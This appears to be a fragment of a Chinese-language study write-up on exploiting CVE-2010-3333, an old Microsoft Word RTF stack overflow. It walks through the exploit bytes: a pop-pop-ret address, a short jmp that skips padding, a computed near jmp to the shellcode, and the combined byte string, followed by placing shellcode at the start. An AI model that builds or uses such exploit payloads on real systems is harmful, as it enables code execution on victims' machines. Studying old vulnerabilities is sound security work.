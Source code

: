 
这里找到了 30ca3814 需要改成小段存储

```
1438ca30
```

接着我们需要jmp short跳到我们真正跳转shellcode的指令地址 中间需要绕过多余的数据6个 

![image-20220720145912236](cve-2010-3333.assets/image-20220720145912236.png)

```
eb 06 90 90 + pop pop ret 指令的地址
eb0690901438ca30
```

接着是跳转到真正的shellcode的位置

```
0012ffb8的位置 jmp 0x001237dc
E9的jmp距离计算：距离=目的地址-(当前地址+5)(加5是因为JMP命令共占5个字,实际是目的地址减去JMP命令的指令的长度,即当前地址+5
0x1237dc - (0x12FFb8 + 5)
负数就要算补码
((0x1237dc - 0x12FFb8 -5)-1)^0xffffffff
0xffff381f
e91f38ffff
eb0690901438ca30e91f38ffff
```

0xc7d4

![image-20220720155445444](cve-2010-3333.assets/image-20220720155445444.png)

再把shellcode插在开头就行了

![image-20220720155556171](cve-2010-3333.assets/image-20220720155556171.png)
